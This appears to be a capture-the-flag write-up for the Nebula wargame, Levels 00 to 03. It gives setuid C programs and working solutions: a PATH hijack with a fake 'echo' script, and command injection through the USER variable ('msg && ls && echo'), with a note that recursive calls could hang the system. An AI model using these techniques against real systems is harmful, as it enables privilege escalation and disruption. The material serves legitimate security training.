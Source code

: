 Nebula Exec:


### Level00:

find a program with set uid that will run as the "flag00" user.

Solution


Find the account of the user `flag00` which is in `/home/flag00`
Then run an ls to find his uid:
```
ls -nl /home/flag00
```
With the user id number use the comand find to find a file
```
find / -uid 999
```

Run the file and follow the instructions.


### Level01

Find the vulnerability in this code:

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}

```

This exercise is related to the `/usr/bin/env` which does not takes any user
defined variables. Which can be good or it can be used to override the system
path.

The quiz asks to find how to use the executable to execute any program.
Here is my solution:
```
$ cat > ~/echo
#!/usr/bin/bash
dmesg
^D
$ chmod +x ~/echo
$ PATH=/home/level01/:$PATH
$ /home/flag01/flag01
echo and now what? [   0.0000] microcode ....
```

What we are doing is to use the fact that env takes the environment variables
like PATH and uses that to execute the commands unless we specify a different
value. Also the system searches the PATH in order, this is why we set our home
directory first in the PATH variable. Then when the `system` is called it finds
our executable `echo` and uses it to acomplish what is being asked in the string

### Level02

The quiz here is the same, exploit the program to execute any program that we
may want.

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);

  system(buffer);
}
```

This is similar to the last exercise, now we can override the `USER` variable
and use shell logic operators to make the program to execute any input as long
as it is well formed.

Solution:

```
$ USER="msg && ls && echo"
$ ./flag02
about to call system("/bin/echo msg && ls && echo is cool")
xx
flag02 <- our output
is cool
```

the ls command can be replaced by our shell or any other command. For example we
could crash/hang/lag the system  by calling the same program recursively:

```
$ USER="msg && ./flag02 && echo"
$ ./flag02
```

### Level03

Check the files in /home/flag03. There is a crontab that is called every couplpe
of minutes.
